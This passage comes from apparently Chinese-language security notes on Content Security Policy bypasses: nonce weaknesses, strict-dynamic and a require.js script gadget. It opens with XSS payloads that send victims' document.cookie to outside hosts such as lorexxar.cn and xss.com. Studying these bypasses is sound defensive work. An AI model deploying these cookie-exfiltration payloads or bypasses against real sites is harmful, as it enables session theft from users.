      <script>windows.open('http://lorexxar.cn?a=+document.cooke')</script>
     <meta http-equiv="refresh" content="5;http://lorexxar.cn?c=[cookie]">
     // 
     var x = document.createElement("x");
     x.href='http://xss.com/?cookie='+escape(document.cookie);
     x.click();
     ```  
* nonce script CSP  
  這是在CSP2出現的概念，Web應用會根據一個隨機token來判斷腳本是否可信任  
  ```php
  header("Content-Security-Policy: default-src 'self'; script-src 'nonce-{隨機}' ");
  ```
  以上CSP只有帶一樣nonce`<script nonce="{隨機}">alert(1)</script>`的script才可以執行  
  但是要**繞過**也很簡單，這個`隨機`字符串基本上是每次request都會重新產生(一次性)  
  ```php
  // 假設header裡面是類似 nonce-".$random." 在後端產生
  <script nonce="<?php echo $random ?>">
  ```  
  **Sebastian Lekies** 提出**DOM XSS**可以完虐nonce script CSP  
  [How to bypass CSP nonces with DOM XSS 🎅](http://sirdarckcat.blogspot.jp/2016/12/how-to-bypass-csp-nonces-with-dom-xss.html)  
  諸如`location.hash`操作的xss攻擊，根本不需要經過後台，那nonce的值也不會刷新  
* strict-dynamic  
  這是在CSP3中新規範的一種參數，為了現代各式各樣的框架而提出  
  ```js
  script-src 'nonce-random' 'strict-dynamic'; object-src 'none'
  // 以下為masakato對strict-dynamic的解釋
  // 可加載
  <script src='test.com/a.js' nonce='random'></script>
  ```
  這樣一行CSP就可以確保所有**靜態**的`script`有匹配的nonce，strict-dynamic可以幫助開發人員在web運行過程中動態加載受信任的腳本  
  如果`a.js`想要加載其他的js，只有**非parser-inserted**的script可以被允許執行  
  ```js
  <!-- a.js -->
  // 可加載
  var script = document.createElement('script');
  script.src = 'test.com/dependency.js';
  document.body.appendChild(script);
  // 不可
  document.write("<scr"+"ipt src='test.com/dependency.js'></scr"+"ipt>");
  ```
  `createElement`時，element還屬於非parser-inserted屬性的，使用`documemt.write`的話就是parser-inserted屬性的了  
    
  :cat2:**Script Gadgets**：  
  [security-research-pocs by Google](https://github.com/google/security-research-pocs/tree/master/script-gadgets)  
  Script Gadget是指一些已存在的js code用來bypass xss mitigations  
  ```js
  // bypass with require.js
  Content-Security-Policy: "default-src='none';script-src 'nonce-random' 'strict-dynamic'"
  <script data-main="data:,alert(1)"></script>
  <script nonce="random" src="require.js"></script>
  // 原因：require.js在找到帶有data-main屬性的script時，會如下載入
  var node = document.createElement('script');
  node.src = 'data:,alert(1)';
  document.head.appendChild(node);
  // 如上面提到的，非parser-inserted
  ```
